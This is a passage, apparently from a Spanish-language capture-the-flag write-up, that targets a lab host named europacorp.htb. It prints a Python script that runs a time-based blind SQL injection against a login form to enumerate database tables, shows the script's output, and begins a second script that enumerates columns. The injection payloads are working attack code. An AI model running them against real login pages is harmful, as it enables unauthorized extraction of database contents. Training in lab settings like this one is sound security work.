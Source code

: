 ```null
        for position in range(1, 20):

            for character in characters:

                post_data = {
                    'email': "admin@europacorp.htb' and if(substr((select group_concat(table_name) from information_schema.tables where table_schema=\"admin\"),%d,%d)='%s',sleep(%d),1)-- -" % (position, tbls, character, sqtime),
                    'password': 'test'

                }

                p1.status(post_data['email'])

                first_time = time.time()
                r = s.post(main_url, data=post_data)
                second_time = time.time()

                if second_time - first_time > sqtime:
                    table += character
                    p2.status(table)
                    break

        database += ", "

    end_time = time.time()

if __name__ == '__main__':
    MakeRequest()
```

```null
python3 sqli.py
[◣] SQLi: admin@europacorp.htb' and if(substr((select group_concat(table_name) from information_schema.tables where table_schema="admin"),8,1)='5',sleep(5),1)-- -
[d] Tables: users
```

Para la tabla ```users``` enumero las columnas

```null
from pwn import *
import requests, pdb, signal, sys, time, string, urllib3

def def_handler(sig, frame):
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales

main_url = "https://admin-portal.europacorp.htb/login.php"
characters = string.ascii_lowercase + string.ascii_uppercase + string.digits + "-_"

sqtime = 5

# HTTPs Insecure OFF
urllib3.disable_warnings()


def MakeRequest():

    p1 = log.progress("SQLi")
    p2 = log.progress("columns")
```